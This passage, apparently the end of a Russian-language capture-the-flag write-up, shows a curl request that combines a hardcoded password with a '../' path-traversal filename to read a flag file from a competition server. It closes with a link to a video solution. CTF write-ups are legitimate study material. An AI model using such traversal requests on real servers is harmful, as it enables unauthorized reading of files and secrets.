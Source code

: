
P.S. Уязвимость в **docker-compose.yml** не пригодилась :(

Но можно получить флаг и через неё (использовав **/src**):
```
$ curl -X GET -G http://193.41.142.9:8002/files -d 'password=qgzc6!78zxcbkj123fdgd234' -d 'filename=../src/secret_files/flag.txt'
flag{a0a7c3fff21f2aea3cfa1d0316dd816c}
```

---

**UPDATE** после завершения соревнования.

Разбор: https://youtu.be/5tt8xsAhYBI

